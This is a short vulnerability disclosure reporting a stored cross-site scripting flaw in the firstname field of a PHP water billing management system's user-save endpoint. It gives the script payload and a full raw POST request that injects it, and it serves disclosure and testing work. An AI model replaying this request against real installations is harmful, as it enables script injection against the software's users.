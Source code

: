 # water-billing-management-system v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15309/water-billing-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /wbms/classes/Users.php?f=save

Vulnerability location: /wbms/classes/Users.php?f=save, firstname

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /wbms/classes/Users.php?f=save HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------41385014663807018218740876870
Content-Length: 1045
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/wbms/admin/?page=user/manage_user
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------41385014663807018218740876870
Content-Disposition: form-data; name="id"


-----------------------------41385014663807018218740876870
Content-Disposition: form-data; name="firstname"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------41385014663807018218740876870
Content-Disposition: form-data; name="middlename"

123
-----------------------------41385014663807018218740876870
Content-Disposition: form-data; name="lastname"

234
-----------------------------41385014663807018218740876870
Content-Disposition: form-data; name="username"

234
-----------------------------41385014663807018218740876870
Content-Disposition: form-data; name="password"

234
-----------------------------41385014663807018218740876870
Content-Disposition: form-data; name="type"

1
-----------------------------41385014663807018218740876870
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------41385014663807018218740876870--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)